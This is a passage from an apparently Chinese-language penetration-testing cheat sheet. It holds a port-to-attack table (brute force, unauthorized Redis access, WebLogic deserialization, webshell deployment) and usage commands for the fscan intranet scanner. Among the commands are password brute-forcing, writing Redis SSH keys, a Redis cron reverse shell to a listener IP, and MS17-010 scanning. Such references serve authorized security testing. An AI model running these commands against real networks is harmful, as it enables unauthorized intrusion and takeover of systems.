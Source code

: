 |    3389     |            rdp            |                        爆破\Shift后门                        |
|    3690     |          SVN服务          |                      SVN泄露\未授权访问                      |
|    4848     |         glassfish         |                 爆破：控制台弱口令\认证绕过                  |
|    5000     |        sybase/DB2         |                          爆破\注入                           |
|    5432     |        postgresql         |               缓冲区溢出\注入攻击\爆破：弱口令               |
|    5632     |        pcanywhere         |                 拒绝服务\代码执行，抓取密码                  |
|    5900     |            vnc            |                    爆破：弱口令\认证绕过                     |
|    6379     |           redis           |                   未授权访问\爆破：弱口令                    |
|  7001/7002  |         weblogic          |         Java反序列化\控制台弱口令\控制台部署webshell         |
|    8069     |          zabbix           |                     远程命令执行\SQL注入                     |
|  8080/8089  | JBoss/Resin/Jetty/Jenkins |                    反序列化、控制台弱口令                    |
|    9090     |      websphere控制台      |                爆破：控制台弱口令\Java反序列                 |
|  9200/9300  |       elasticsearch       |                         远程代码执行                         |
|    10000    |      webmin控制面板       |                            弱口令                            |
|    11211    |        memcacache         |                          未授权访问                          |
| 27017/27018 |          mongodb          |                       爆破\未授权访问                        |
|    50000    |  SAP Management Console   |                           远程执行                           |

### 内网综合扫描工具

#### Fscan

​	一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbio探测、域控识别等功能。

下载连接：https://github.com/shadow1ng/fscan

**工具使用方法：**

```
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```
